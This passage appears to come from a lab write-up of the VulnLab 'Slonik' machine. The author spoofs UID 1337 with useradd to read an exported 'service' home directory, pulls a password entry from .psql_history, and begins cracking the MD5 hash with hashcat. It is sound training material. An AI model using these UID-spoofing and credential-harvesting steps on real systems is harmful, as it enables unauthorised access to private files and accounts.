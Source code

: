 As seen above user with UID 1337 owns the `service` folder.\
If we create a local user with the same UID (1337), we can automatically gain access to the contents of the `service` directory.\
This is a well-known and fairly simple misconfiguration.

```bash
➜  home sudo useradd -u 1337 easyone -s /bin/bash
➜  home sudo su - easyone 
su: warning: cannot change directory to /home/easyone: No such file or directory
easyone@kali:/home/user/VULNLAB/slonik/share/home$ cd service/
easyone@kali:/home/user/VULNLAB/slonik/share/home/service$ ls -la
total 40
drwxr-x--- 5 easyone easyone 4096 Oct 24  2023 .
drwxr-xr-x 3 root    root    4096 Oct 24  2023 ..
-rw-rw-r-- 1 easyone easyone   90 Oct 24  2023 .bash_history
-rw-r--r-- 1 easyone easyone  220 Oct 24  2023 .bash_logout
-rw-r--r-- 1 easyone easyone 3771 Oct 24  2023 .bashrc
drwx------ 2 easyone easyone 4096 Oct 24  2023 .cache
drwxrwxr-x 3 easyone easyone 4096 Oct 24  2023 .local
-rw-r--r-- 1 easyone easyone  807 Oct 24  2023 .profile
-rw------- 1 easyone easyone  326 Oct 24  2023 .psql_history
drwxrwxr-x 2 easyone easyone 4096 Oct 24  2023 .ssh
```

Nice and easy

The first thing that comes to mind is checking the `.ssh` directory, which I eagerly did. However, it turns out SSH wasn't configured with keys.\
Next, let's take a look at the PostgreSQL history.

```bash
easyone@kali:/home/user/VULNLAB/slonik/share/home/service$ cat .psql_history 
CREATE DATABASE service;
\c service;
CREATE TABLE users ( id SERIAL PRIMARY KEY, username VARCHAR(255) NOT NULL, password VARCHAR(255) NOT NULL, description TEXT);
INSERT INTO users (username, password, description)VALUES ('service', '<REDACTED>'WHERE', network access account');
select * from users;
\q
```

We can see the `service` user's password hashed in MD5 format.\
Let's try cracking it offline using Hashcat.

<pre class="language-zsh"><code class="lang-zsh">➜  slonik hashcat -a 0 -m 0 md5_service /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting
<strong>
</strong><strong>OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
</strong><strong>============================================================================================================================================
</strong>&#x3C;SNIP>
